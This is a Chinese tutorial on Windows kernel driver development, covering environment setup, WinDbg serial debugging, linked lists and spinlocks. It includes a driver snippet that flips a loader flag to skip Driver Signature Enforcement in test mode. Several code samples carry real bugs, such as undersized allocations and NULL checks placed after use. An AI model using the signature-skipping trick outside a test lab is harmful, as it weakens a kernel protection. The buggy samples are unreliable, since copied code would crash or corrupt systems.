## 第一篇：驱动开发环境配置

本章主要介绍如何配置驱动开发环境，包括配置驱动开发模板、驱动联机调试以及配置 DSE 签名绕过等内容。

驱动开发需要特定的开发环境和工具，本章将介绍如何安装和配置必要的软件和驱动程序，包括安装 WDK、Visual Studio 和其他必要的软件和工具。同时，还将介绍如何配置驱动开发模板，以便快速创建新的驱动程序。

驱动联机调试是调试驱动程序时必须使用的一种方法，本章将介绍如何配置驱动联机调试环境，包括配置虚拟机和配置 WinDBG 调试工具等。

在进行驱动开发时，为了避免 DSE 签名检查对开发和测试造成影响，需要进行 DSE 签名绕过。本章将介绍如何进行 DSE 签名绕过，并介绍一些常用的绕过方法和工具。

通过学习本章的内容，读者将了解如何配置和使用驱动开发环境和工具，包括如何创建和调试驱动程序，以及如何进行 DSE 签名绕过等。同时，本章所介绍的内容也是深入学习驱动开发必不可少的一部分，为后续章节的内容打下了坚实的基础。

### 1.1 配置驱动开发环境

在进行驱动开发之前，您需要先安装适当的开发环境和工具。首先，您需要安装`Windows`驱动开发工具包（WDK），这是一组驱动开发所需的工具、库、示例和文档。然后，您需要安装`Visual Studio`开发环境，以便编写和调试驱动程序。在安装WDK和`Visual Studio`之后，您还需要配置适当的项目设置，以便能够正确编译和构建驱动程序。

首先我们需要安装`Visual Studio 2013`这款功能强大的程序开发工具，在课件内请双击`ISO`文件并运行内部的`vs_ultimate.exe`安装包，`Visual Studio`的安装非常的简单，您只需要按照提示全部选择默认参数即可，根据机器配置不同可能需要等待一段时间；



接着读者还需要继续安装`Windows Driver Kit 8.1`工具包，请将该工具包解压缩到桌面，并双击`wdksetup.exe`进行安装，过程中只需要一直下一步，并等待WDK工具包安装完成；

WDK就是内核编程开发工具包，某些读者可能听说过DDK或者IFSDDK，最典型的开发工具包莫过于`DDK7600`，直到目前此类工具包仍然可以正常使用，但并不推荐。



为了能测试驱动程序运行状态，读者需安装`VMWare`虚拟机，双击附件中的`VMware-workstation-full-16.2.4-20089737.exe`安装程序一直点击下一步即可，需要注意的是在如下选项中请在增强型键盘驱动程序上打对勾，之后等待安装完毕即可；



接着打开`VMware`虚拟机，并在`文件`处选择`新建虚拟机`，单机下一步并选中`稍后安装操作系统`，在操作系统选择页面选择`Win10 x64`版本。



在硬件配置处，读者可根据自己电脑的配置灵活的选择，当自定义配置完成后，则虚拟机模板将被创建。



虚拟机模板创建完成后，读者可根据如下配置选择编辑虚拟机设置，并在磁盘位置处将课件中的`cn_windows_10_consumer_editions_version_1903_x64_dvd_8f05241d.iso`挂载到虚拟机上；



点击开启虚拟机，并按照提示将`Windows`系统正确的安装，需要注意的是在选择版本时，读者最好使用`教育版`与笔者开发环境保持一致，至此只需等待系统安装完毕，根据系统差异安装时间可能有所差别，耐性等待即可；

当一切安装就绪后我们需要在系统中安装`VMware Tools`工具，该组件在安装后可让虚拟机具备有拖拽上传文件的功能，且鼠标键盘将可以自由切换，该功能是我们必须要用到的；



安装`VMware Tools`工具很容易，只需要点击安装菜单，后会在虚拟机中出现DVD驱动器，此时双击驱动器并按照要求安装即可，安装完成后重启系统，此时则具备了拖拽上传功能；



当这些都做好以后，建议用户关闭虚拟机，并点击`虚拟机`菜单，找到`快照`并拍摄一个快照，快照的作用是当虚拟机系统出现问题后可快速恢复到初始模式，避免重装系统，在后续课程中读者会出现无数次的蓝屏，而虚拟机快照的快速恢复功能则是一个很好的选择；



### 1.2 配置驱动开发模板

为了方便开发，您可以使用`Visual Studio`提供的驱动开发模板，这些模板可以快速创建驱动程序项目，同时包含了一些常用的代码和设置。在创建项目时，您可以选择相应的模板，以便快速开始开发工作。同时，您还需要设置正确的编译和构建选项，以确保生成的驱动程序可以正确运行。

1.打开`Visual Studio`开发工具，然后选择`文件`菜单新建项目，并在已安装模板中选中`Visual C++`新建空项目，并将项目名称命名为`WinDDK`点击确定。



2.依次选择`解决方案视图-源文件-添加新建项`选项卡，或者直接按下`Ctrl + Shift + A`快捷打开菜单，并创建`main.c`文件。



3.接着需要修改配置管理器，添加自定义配置管理，选择`生成-配置管理器-新建`选项卡，此处我们命名为`WinDDK`即可。



4.修改配置属性中的`常规`属性，点击菜单栏中的调试，选择`WinDDK属性-配置-常规`修改为标黄处所示内容即可。



5.配置可执行文件路径与导入库路径，这里我们选择`配置属性-VC++目录`依次将如下信息填入配置项。
```c
可执行目录
C:\Program Files (x86)\Windows Kits\8.1\bin\x64
C:\Program Files (x86)\Windows Kits\8.1\bin

包含目录
C:\Program Files (x86)\Windows Kits\8.1\Include\km
C:\Program Files (x86)\Windows Kits\8.1\Include\shared
C:\Program Files (x86)\Windows Kits\8.1\Include\um
C:\Program Files (x86)\Windows Kits\8.1\Include\wdf\kmdf\1.13
C:\Program Files (x86)\Windows Kits\8.1\Include\wdf\umdf\2.0
C:\Program Files (x86)\Windows Kits\8.1\Include\winrt

引用目录
C:\Program Files (x86)\Windows Kits\8.1\Lib\win7\km\x64

库目录
C:\Program Files (x86)\Windows Kits\8.1\Lib\win7\km\x64
C:\Program Files (x86)\Windows Kits\8.1\Lib\wdf\kmdf\x64\1.13
C:\Program Files (x86)\Windows Kits\8.1\Lib\wdf\umdf\x64\2.0
C:\Program Files (x86)\Windows Kits\8.1\Lib\winv6.3\um\x64
C:\Program Files (x86)\Windows Kits\8.1\Lib\winv6.3\km\x64
```

当如上文件配置完成后，最终效果如下图所示；



6.配置C/C++优化选项，在配置属性中找到`C/C++-所有选项`并依次修改下方几个关键位置。

```c
安全检查         禁用安全检查 (/GS-)
将警告视为错误    否 (/WX-)
警告等级         关闭所有警告
启用C++异常      否
调用约定         __fastcall (/Gr)
优化            已禁用 (/Od)
运行库          多线程 (/MT)
预处理器定义     _AMD64_;_DDK_;_WIN32_WINNT=0x0501;WINVER=0x0501;_NDEBUG;DBG=0;%(PreprocessorDefinitions)
```

当如上文件配置完成后，最终效果如下图所示；



7.配置连接器选项，选择`连接器-所有选项`依次修改下方几个关键位置。
```c
附加选项            /IGNORE:4078 /safeseh:no
附加依赖项          ntoskrnl.lib;ndis.lib;Hal.lib;wdm.lib;wdmsec.lib;wmilib.lib
固定基址            此处需要清空
忽略所有默认库      是 (/NODEFAULTLIB)
启用增量链接        否 (/INCREMENTAL:NO)
驱动程序            驱动程序 (/Driver)
入口点              DriverEntry
生成清单            否 (/MANIFEST:NO)
生成调试信息        是 (/DEBUG)
生成映射文件        是 (/MAP)
数据执行保护        是 (/NXCOMPAT)
随机基址           此处需要清空
子系统             本机 (/SUBSYSTEM:NATIVE)
```

当如上文件配置完成后，最终效果如下图所示；



8.上方的配置已经基本完成了，接着我们编写一段驱动初始化代码，然后按下`F7`即可完成驱动的编译。
```c
#include <ntifs.h>

// 卸载驱动
NTSTATUS UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint("Uninstall Driver Is OK \n");
    return STATUS_SUCCESS;
}

// 驱动入口地址
NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("Hello LyShark \n");
    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

9.最后生成一个驱动开发模板，依次选择`文件-导出模板-项目模板-下一步-完成`即可完成模板的导出，此时关闭VS工具并再次打开，就能直接使用我们的模板来开发驱动了，当用户需要使用时，不需要每次都配置。

 - 模板位置：C:\Users\admin\Documents\Visual Studio 2013\My Exported Templates



读者也应注意，如果用户通过模板创建驱动开发项目则需要手动在配置菜单中切换到`WinDDK`选项的`x64`模式下。



### 1.3 配置驱动双机调试

在驱动开发中，需要进行双机调试以确保驱动程序能够正确地与系统交互。为了实现双机调试，您需要在两台计算机之间建立调试连接，并在`Visual Studio`中配置相应的调试选项。在调试时，您可以使用`Visual Studio`提供的调试工具进行单步调试和调试信息的查看，以便更快地定位问题和解决错误。

1.首先需要在`VMware`虚拟机关闭状态下添加一个`管道虚拟串口`，此处需要删除打印机，否则串口之间冲突。

操作步骤：`编辑虚拟机设置` -> `添加` -> `串行端口` -> `完成`
参数配置：`使用命名管道` -> `\\.\pipe\com_1` -> `该端是服务器，另一端是应用程序` -> `轮询时主动放弃CPU`->`确定`



2.开启虚拟机中的`Windows`系统，然后以管理员身份运行CMD命令行，输入`bcdedit`命令，可以查看到系统的当前启动项，如果是新的系统，则只会有`{current}`启动项以及一个`{bootmgr}`项。



连续执行下方的七条命令，依次建立启动项，激活`Windows`系统的调试模式，并开启串口通信，调试端口波特率为115200
```BASH
bcdedit /set testsigning on
bcdedit -debug on
bcdedit /bootdebug on
bcdedit /set "{current}" bootmenupolicy Legacy             // 修改启动方式为Legacy
bcdedit /dbgsettings SERIAL DEBUGPORT:1 BAUDRATE:115200    // 设置串口1为调试端口波特率为115200
bcdedit /copy "{current}" /d "Debug"                       // 将当前配置复制到Debug启动配置
bcdedit /debug "{<新建的启动配置的标识符>}" on               // 打开调试开关
```

但需要注意`{<新建的启动配置的标识符>}`需替换成`{bdb0b3b6-3f21-11ed-9931-d46011246f28}`标志，如下所示。



3.最后查看一下当前调试配置选项，执行命令 `bcdedit /dbgsettings`，显示出使用的第一个串口，波特率为`115200bps`，保持默认不需要修改。



4.配置完成后，重新启动系统，在开机的时候选择`Windows10 [启用调试程序]`则系统会黑屏，说明已经正常进入调试模式了。



5.此时回到物理机上面，解压缩课件中的`WinDBG_10.0.16299.15.zip`到D盘根目录下，我们在命令行中切换到`WinDBG\x64`的根目录下，并执行以下命令，即可连接虚拟机串口进行调试了。

 - 执行命令 `windbg.exe -b -k com:port=\\.\pipe\com_1,baud=115200,pipe` 如下图



6.至此我们还需要加载符号，符号的作用是方便我们调试，该符号是由微软官方维护的权威资料，在命令行下依次执行以下命令，配置好符号加载并启动系统。
```c
kd> .sympath SRV*c:\mySymbols*http://msdl.microsoft.com/download/symbols
kd> .reload
kd> g
kd> g
kd> ed nt!Kd_SXS_Mask 0
kd> ed nt!Kd_FUSION_Mask 0
kd> u KiSystemServiceUser
```

这样即可完成配置操作，此时系统已被断下等待我们执行操作，如下图所示。



7.最后我们配置测试一下调试功能，首先编写以下代码，代码中使用`DbgBreakPoint()`设置断点，将会在入口处中断。
```c
#include <ntifs.h>

// 驱动默认回调
NTSTATUS DriverDefaultHandle(PDEVICE_OBJECT pDevObj, PIRP pIrp)
{
    NTSTATUS status = STATUS_SUCCESS;
    pIrp->IoStatus.Status = status;
    pIrp->IoStatus.Information = 0;
    IoCompleteRequest(pIrp, IO_NO_INCREMENT);

    return status;
}

// 驱动卸载函数
VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint("驱动已卸载 \n");
}

// 驱动入口地址
NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    // 初始化默认派遣函数
    NTSTATUS status = STATUS_SUCCESS;
    for (ULONG i = 0; i < IRP_MJ_MAXIMUM_FUNCTION; i++)
    {
        Driver->MajorFunction[i] = DriverDefaultHandle;
    }

    // 设置断点
    DbgBreakPoint();
    // KdBreakPoint();
    // __debugbreak();

    DbgPrint("驱动已加载 \n");

    // 驱动卸载函数
    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

通过`Visual Studio`工具编译如上代码片段，并在`WinDBG`中输入`g命令`让系统运行起来，将编译好的驱动程序拖入到虚拟机中，并以管理员身份打开`Windows 64Signer.exe`，使用该工具对驱动程序进行签名，如下图所示；



签名完成后将我们的驱动文件`WinDDK.sys`，拖入到`KmdManager.exe`驱动加载工具中，并通过驱动加载工具加载运行，此时`Windows`系统会卡死，回到`WinDBG`中发现已经可以进行调试了，如下图所示；



此处需要扩展一个知识点，如果不使用`WinDBG`工具而想要获取到`DbgPrint()`函数输出结果，则你可以使用课件中提供的`dbgview64.exe`程序，不过此程序需要注意几点，该程序需要使用管理员身份运行，且运行后需要将`Capture`菜单中的属性全部打对勾，如下图所示；



此时`DebugView`会出现很多的无用输出，则你需要打开过滤器按钮，输入`STORMINI`将此类输出屏蔽掉，如下图所示；



至此再次使用`KmdManager`工具加载`WinDDK`驱动，则可以无干扰的输出我们所需结果。

### 1.4 测试模式过DSE签名

在开发和调试驱动程序时，系统可能会拒绝加载未经数字签名的驱动程序，这会影响到开发和测试工作。为了解决这个问题，您可以将系统切换到测试模式，并使用`Test Mode Signing（TMS）`工具进行数字签名。TMS工具可以为您生成数字证书，并将其添加到系统的数字签名列表中，以便系统能够正确加载驱动程序。同时，您还需要在`Visual Studio`中配置相应的签名选项，以确保生成的驱动程序可以通过数字签名验证。

微软在`x64`系统中推出了`DSE`保护机制，DSE全称`(Driver Signature Enforcement)`，该保护机制的核心就是任何驱动程序或者是第三方驱动如果想要在正常模式下被加载则必须要经过微软的认证，当驱动程序被加载到内存时会验证签名的正确性，如果签名不正常则系统会拒绝运行驱动，这种机制也被称为驱动强制签名，该机制的作用是保护系统免受恶意软件的破坏，是提高系统安全性的一种手段。

该验证机制即便是在调试模式也需要强制签名，对于一名`驱动开发者`来说是很麻烦的一件事情，而签名的验证则是在加载时验证驱动入口`_KLDR_DATA_TABLE_ENTRY`里面的`Flags`标志，如果此标志被`pLdrData->Flags | 0x20`置位，则在调试模式下就不会在验证签名了，省去了重复签名的麻烦，完整代码如下所示；

```c
#include <ntifs.h>

// 绕过签名检查
BOOLEAN BypassCheckSign(PDRIVER_OBJECT pDriverObject)
{
#ifdef _WIN64
    typedef struct _KLDR_DATA_TABLE_ENTRY
    {
        LIST_ENTRY listEntry;
        ULONG64 __Undefined1;
        ULONG64 __Undefined2;
        ULONG64 __Undefined3;
        ULONG64 NonPagedDebugInfo;
        ULONG64 DllBase;
        ULONG64 EntryPoint;
        ULONG SizeOfImage;
        UNICODE_STRING path;
        UNICODE_STRING name;
        ULONG   Flags;
        USHORT  LoadCount;
        USHORT  __Undefined5;
        ULONG64 __Undefined6;
        ULONG   CheckSum;
        ULONG   __padding1;
        ULONG   TimeDateStamp;
        ULONG   __padding2;
    } KLDR_DATA_TABLE_ENTRY, *PKLDR_DATA_TABLE_ENTRY;
#else
    typedef struct _KLDR_DATA_TABLE_ENTRY
    {
        LIST_ENTRY listEntry;
        ULONG unknown1;
        ULONG unknown2;
        ULONG unknown3;
        ULONG unknown4;
        ULONG unknown5;
        ULONG unknown6;
        ULONG unknown7;
        UNICODE_STRING path;
        UNICODE_STRING name;
        ULONG   Flags;
    } KLDR_DATA_TABLE_ENTRY, *PKLDR_DATA_TABLE_ENTRY;
#endif

    PKLDR_DATA_TABLE_ENTRY pLdrData = (PKLDR_DATA_TABLE_ENTRY)pDriverObject->DriverSection;
    pLdrData->Flags = pLdrData->Flags | 0x20;

    return TRUE;
}

VOID UnDriver(PDRIVER_OBJECT driver)
{

}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    NTSTATUS status;

    // 绕过签名检查
    // LINKER_FLAGS=/INTEGRITYCHECK
    BypassCheckSign(Driver);

    DbgPrint("[驱动已加载] hello lyshark \n");

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

将程序拖入到虚拟机，直接运行即可加载，无需再继续签名：



当然这种方式只能在测试模式下使用，在正常模式也是无效的，只是为了方便测试驱动。

## 第二篇：驱动开发基础知识

本章主要介绍驱动开发中的一些基础知识，包括内核链表与结构体、内核自旋锁、字符串转换方法和驱动对象介绍等。

在驱动开发中，内核链表和结构体是常用的数据结构，本章将介绍如何使用内核链表和结构体来管理和操作数据。内核自旋锁是一种保护共享资源的机制，本章将介绍如何使用内核自旋锁来保护驱动程序中的共享资源。

字符串转换方法是驱动开发中必不可少的一部分，本章将介绍如何使用内核提供的字符串转换函数来处理字符串操作。最后，本章还将介绍驱动对象的概念和使用方法，包括设备对象、文件对象、IO 请求包等。

通过学习本章的内容，读者将了解驱动开发中的一些基础知识和常用技术，可以更好地理解驱动程序的开发和调试过程。同时，本章所涉及的内容也是深入学习驱动开发的基础，为后续章节的内容打下了坚实的基础。

### 2.1 内核链表与结构体

在`Windows`内核中，为了实现高效的数据结构操作，通常会使用链表和结构体相结合的方式进行数据存储和操作。内核提供了一个专门用于链表操作的数据结构`LIST_ENTRY`，可以用来描述一个链表中的每一个节点。

使用链表来存储结构体时，需要在结构体中嵌入一个`LIST_ENTRY`类型的成员变量，用来连接相邻的节点。通过一些列链表操作函数，如`InitializeListHead、InsertHeadList、InsertTailList、RemoveEntryList`等，可以对链表中的结构体进行插入、删除、遍历等操作。

下面是一个简单的实现，用于枚举所有用户进程，并将进程信息存储到链表结构体中：
```c
#include <ntifs.h>
#include <windef.h>

extern PVOID PsGetProcessPeb(_In_ PEPROCESS Process);
NTKERNELAPI NTSTATUS PsLookupProcessByProcessId(HANDLE ProcessId, PEPROCESS *Process);
extern NTKERNELAPI PVOID PsGetProcessWow64Process(_In_ PEPROCESS Process);
extern NTKERNELAPI UCHAR* PsGetProcessImageFileName(IN PEPROCESS Process);
extern NTKERNELAPI HANDLE PsGetProcessInheritedFromUniqueProcessId(IN PEPROCESS Process);

typedef struct
{
    DWORD Pid;
    UCHAR ProcessName[2048];
    DWORD Handle;
    LIST_ENTRY ListEntry;
}ProcessList;

// 根据进程ID返回进程EPROCESS结构体失败返回NULL
PEPROCESS LookupProcess(HANDLE Pid)
{
    PEPROCESS eprocess = NULL;
    NTSTATUS Status = STATUS_UNSUCCESSFUL;
    Status = PsLookupProcessByProcessId(Pid, &eprocess);
    if (NT_SUCCESS(Status))
    {
        return eprocess;
    }
    return NULL;
}

// 内核链表操作
BOOLEAN GetAllProcess()
{
    PEPROCESS eproc = NULL;
    LIST_ENTRY linkListHead;

    // 初始化链表头部
    InitializeListHead(&linkListHead);
    ProcessList *pData = NULL;

    for (int temp = 0; temp < 100000; temp += 4)
    {
        eproc = LookupProcess((HANDLE)temp);
        if (eproc != NULL)
        {
            STRING nowProcessnameString = { 0 };
            RtlInitString(&nowProcessnameString, PsGetProcessImageFileName(eproc));

            // DbgPrint("进程名: %s --> 进程PID = %d --> 父进程PPID = %d\r\n", 
            // PsGetProcessImageFileName(eproc), PsGetProcessId(eproc), PsGetProcessInheritedFromUniqueProcessId(eproc));

            // 分配内核堆空间
            pData = (ProcessList *)ExAllocatePool(PagedPool, sizeof(ProcessList));
            RtlZeroMemory(pData, sizeof(ProcessList));

            // 设置变量
            pData->Pid = (DWORD)PsGetProcessId(eproc);
            RtlCopyMemory(pData->ProcessName, PsGetProcessImageFileName(eproc), strlen(PsGetProcessImageFileName(eproc)) * 2);
            pData->Handle = (DWORD)PsGetProcessInheritedFromUniqueProcessId(eproc);

            // 插入元素到
            InsertTailList(&linkListHead, &pData->ListEntry);
            ObDereferenceObject(eproc);
        }
    }

    // 输出链表内的数据
    while (!IsListEmpty(&linkListHead))
    {
        LIST_ENTRY *pEntry = RemoveHeadList(&linkListHead);
        pData = CONTAINING_RECORD(pEntry, ProcessList, ListEntry);

        DbgPrint("%d \n", pData->Pid);
        DbgPrint("%s \n", pData->ProcessName);
        DbgPrint("%d \n", pData->Handle);
        ExFreePool(pData);
    }
    return TRUE;
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint(("Uninstall Driver Is OK \n"));
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("hello lyshark \n");

    GetAllProcess();

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

DbgView是一款用于监视内核和应用程序调试输出的工具，可以输出各种调试信息和日志信息，包括`OutputDebugString`函数输出的信息。当我们在内核中调用`OutputDebugString`函数输出信息时，可以通过`DbgView`查看输出结果，我们手动上述代码后将可以在`DbgView`中看到输出的进程信息，如下图所示；



如果需要在内核模式中返回一个结构体，可以通过定义一个结构体指针作为函数参数，将结构体指针作为函数返回值来实现。返回结构体，则可以这样来写代码。
```c
#include <ntifs.h>
#include <windef.h>

typedef struct
{
    int count;
    char username[256];
    char password[256];
}MyData;

// 模拟返回一个结构
BOOLEAN GetProcess(PVOID OutPut)
{
    RtlZeroMemory(OutPut, sizeof(MyData));
    MyData *data = OutPut;

    data->count = 100;
    RtlCopyMemory(data->username, "lyshark.com", sizeof("lyshark.com"));
    RtlCopyMemory(data->password, "https://www.cnblogs.com/lyshark", sizeof("https://www.cnblogs.com/lyshark"));
    return TRUE;
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint(("Uninstall Driver Is OK \n"));
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("hello lyshark \n");
    PVOID Ptr = (PVOID)ExAllocatePool(NonPagedPool, sizeof(MyData));


    GetProcess(Ptr);

    MyData *data = (MyData *)Ptr;

    DbgPrint("count = %d \n", data->count);
    DbgPrint("username = %s \n", data->username);
    DbgPrint("password = %s \n", data->password);

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

输出效果如下图所示；



### 2.2 内核自旋锁结构

提到自旋锁那就必须要说链表，在上一篇`《内核中的链表与结构体》`文章中简单实用链表结构来存储进程信息列表，相信读者应该已经理解了内核链表的基本使用，本篇文章将讲解自旋锁的简单应用，自旋锁是为了解决内核链表读写时存在线程同步问题，解决多线程同步问题必须要用锁，通常使用自旋锁，自旋锁是内核中提供的一种高IRQL锁，用同步以及独占的方式访问某个资源。

在了解自旋锁之前需简单介绍一下内核中如何分配内存，一般而言分配内存有两个函数来实现`ExAllocatePool`可实现分配不带有任何标签的内存空间，而`ExAllocatePoolWithTag`则可分配带标签的，两者在使用上没有任何区别与之对应的就是释放`ExFreePool`用于释放非标签内存，而`ExFreePoolWithTag`则用于通过传入的标签释放对应的内存。

此处的分页属性常用的有三种，`NonPagedPool`用于分配非分页内存，`PagedPool`是分页内存，`NonPagedPoolExecute`是带有执行权限的非分页内存。

 - NonPagedPool: 用于分配非分页内存，该内存不会被交换到磁盘上，并且可以直接被内核访问。适用于需要快速访问的内存，例如驱动程序的代码、中断处理程序、系统调用等。

 - PagedPool: 用于分配分页内存，该内存可能会被交换到磁盘上，需要通过分页机制进行访问。适用于占用空间较大、访问频率较低的内存，例如缓存、数据结构等。

 - NonPagedPoolExecute: 是带有执行权限的非分页内存，适用于需要执行代码的情况，例如一些特殊的驱动程序。

需要注意的是，使用`NonPagedPoolExecute`分配内存存在一定的安全风险，因为恶意软件可能会利用该内存进行攻击。因此，建议仅在必要时使用该分页属性。

```c
#include <ntifs.h>

typedef struct _MyStruct
{
    ULONG x;
    ULONG y;
}MyStruct, *pMyStruct;

VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint("驱动已卸载 \n");
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("hello lyshark \n");

    // 用于分配与释放非标签内存
    PVOID buffer = ExAllocatePool(NonPagedPool, 1024);

    DbgPrint("[*] 分配内存地址 = %p \n", buffer);

    ExFreePool(buffer);

    // 用于分配带有标签的内存
    pMyStruct ptr_buffer = (pMyStruct)ExAllocatePoolWithTag(NonPagedPoolExecute, sizeof(pMyStruct),"lyshark");

    ptr_buffer->x = 100;
    ptr_buffer->y = 200;

    DbgPrint("[*] 分配内存 x = %d y = %d \n", ptr_buffer->x, ptr_buffer->y);

    ExFreePoolWithTag(ptr_buffer, "lyshark");

    UNICODE_STRING dst = { 0 };
    UNICODE_STRING src = RTL_CONSTANT_STRING(L"hello lyshark");

    dst.Buffer = (PWCHAR)ExAllocatePool(NonPagedPool, src.Length);
    if (dst.Buffer == NULL)
    {
        DbgPrint("[-] 分配空间错误 \n");
    }

    dst.Length = dst.MaximumLength = src.Length;

    RtlCopyUnicodeString(&dst, &src);

    DbgPrint("[*] 输出拷贝 = %wZ \n", dst);

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

代码输出效果如下图所示；



接着步入正题，以简单的链表为案例，链表主要分为单向链表与双向链表，单向链表的链表节点中只有一个链表指针，其指向后一个链表元素，而双向链表节点中有两个链表节点指针，其中`Blink`指向前一个链表节点`Flink`指向后一个节点，以双向链表为例。
```c
#include <ntifs.h>
#include <ntstrsafe.h>

/*
// 链表节点指针
typedef struct _LIST_ENTRY
{
  struct _LIST_ENTRY *Flink;   // 当前节点的后一个节点
  struct _LIST_ENTRY *Blink;   // 当前节点的前一个结点
}LIST_ENTRY, *PLIST_ENTRY;
*/

typedef struct _MyStruct
{
  ULONG x;
  ULONG y;
  LIST_ENTRY lpListEntry;
}MyStruct,*pMyStruct;

VOID UnDriver(PDRIVER_OBJECT driver)
{
  DbgPrint("驱动卸载成功 \n");
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("hello lyshark \n");

  // 初始化头节点
  LIST_ENTRY ListHeader = { 0 };
  InitializeListHead(&ListHeader);

  // 定义链表元素
  MyStruct testA = { 0 };
  MyStruct testB = { 0 };
  MyStruct testC = { 0 };

  testA.x = 100;
  testA.y = 200;

  testB.x = 1000;
  testB.y = 2000;

  testC.x = 10000;
  testC.y = 20000;

  // 分别插入节点到头部和尾部
  InsertHeadList(&ListHeader, &testA.lpListEntry);
  InsertTailList(&ListHeader, &testB.lpListEntry);
  InsertTailList(&ListHeader, &testC.lpListEntry);

  // 节点不为空 则 移除一个节点
  if (IsListEmpty(&ListHeader) == FALSE)
  {
    RemoveEntryList(&testA.lpListEntry);
  }

  // 输出链表数据
  PLIST_ENTRY pListEntry = NULL;
  pListEntry = ListHeader.Flink;

  while (pListEntry != &ListHeader)
  {
    // 计算出成员距离结构体顶部内存距离
    pMyStruct ptr = CONTAINING_RECORD(pListEntry, MyStruct, lpListEntry);
    DbgPrint("节点元素X = %d 节点元素Y = %d \n", ptr->x, ptr->y);

    // 得到下一个元素地址
    pListEntry = pListEntry->Flink;
  }

  Driver->DriverUnload = UnDriver;
  return STATUS_SUCCESS;
}
```

链表输出效果如下图所示；



如上所述，在内核开发中，多线程访问同一数据结构时会存在线程同步问题，为了解决这种问题，可以使用锁机制进行同步。自旋锁是一种常用的锁机制，它是一种高IRQL锁，用于同步和独占地访问某个资源。

 - 自旋锁的基本思想是：当一个线程尝试获取锁时，如果锁已经被占用，则该线程不断循环（即自旋），直到锁被释放。自旋锁适用于锁的持有时间较短，且竞争者较少的情况下，可以避免进程上下文的切换和调度开销。

Windows内核提供了多种类型的自旋锁，例如`KSPIN_LOCK、KIRQL`等。其中，`KSPIN_LOCK`是最常用的自旋锁类型，可以通过`KeInitializeSpinLock`函数初始化一个自旋锁，并通过`KeAcquireSpinLock`和`KeReleaseSpinLock`函数进行加锁和解锁操作。

需要注意的是，使用自旋锁要注意死锁和优先级反转等问题，因此在实际应用中需要谨慎使用。
```c
#include <ntifs.h>
#include <ntstrsafe.h>

/*
// 链表节点指针
typedef struct _LIST_ENTRY
{
struct _LIST_ENTRY *Flink;   // 当前节点的后一个节点
struct _LIST_ENTRY *Blink;   // 当前节点的前一个结点
}LIST_ENTRY, *PLIST_ENTRY;
*/

typedef struct _MyStruct
{
    ULONG x;
    ULONG y;
    LIST_ENTRY lpListEntry;
}MyStruct, *pMyStruct;

// 定义全局链表和全局锁
LIST_ENTRY my_list_header;
KSPIN_LOCK my_list_lock;

// 初始化
void Init()
{
    InitializeListHead(&my_list_header);
    KeInitializeSpinLock(&my_list_lock);
}

// 函数内使用锁
void function_ins()
{
    KIRQL Irql;

    // 加锁
    KeAcquireSpinLock(&my_list_lock, &Irql);

    DbgPrint("锁内部执行 \n");

    // 释放锁
    KeReleaseSpinLock(&my_list_lock, Irql);
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint("驱动卸载成功 \n");
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("hello lyshark \n");

    // 初始化链表
    Init();

    // 分配链表空间
    pMyStruct testA = (pMyStruct)ExAllocatePool(NonPagedPoolExecute, sizeof(pMyStruct));
    pMyStruct testB = (pMyStruct)ExAllocatePool(NonPagedPoolExecute, sizeof(pMyStruct));

    // 赋值
    testA->x = 100;
    testA->y = 200;

    testB->x = 1000;
    testB->y = 2000;

    // 向全局链表中插入数据
    if (NULL != testA && NULL != testB)
    {
        ExInterlockedInsertHeadList(&my_list_header, (PLIST_ENTRY)&testA->lpListEntry, &my_list_lock);
        ExInterlockedInsertTailList(&my_list_header, (PLIST_ENTRY)&testB->lpListEntry, &my_list_lock);
    }

    function_ins();

    // 移除节点A并放入到remove_entry中
    PLIST_ENTRY remove_entry = ExInterlockedRemoveHeadList(&testA->lpListEntry, &my_list_lock);

    // 输出链表数据
    while (remove_entry != &my_list_header)
    {
        // 计算出成员距离结构体顶部内存距离
        pMyStruct ptr = CONTAINING_RECORD(remove_entry, MyStruct, lpListEntry);
        DbgPrint("节点元素X = %d 节点元素Y = %d \n", ptr->x, ptr->y);

        // 得到下一个元素地址
        remove_entry = remove_entry->Flink;
    }

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

加锁后执行效果如下图所示；




### 2.3 内核字符串转换方法

在内核编程中字符串有两种格式`ANSI_STRING`与`UNICODE_STRING`，这两种格式是微软推出的安全版本的字符串结构体，也是微软推荐使用的格式，通常情况下`ANSI_STRING`代表的类型是`char *`也就是`ANSI`多字节模式的字符串，而`UNICODE_STRING`则代表的是`wchar*`也就是`UNCODE`类型的字符，如下文章将介绍这两种字符格式在内核中是如何转换的。

在Windows内核中，字符串的处理十分重要。不同于用户态程序，内核中的字符串必须遵循严格的安全规则，以确保不会引发各种安全漏洞。

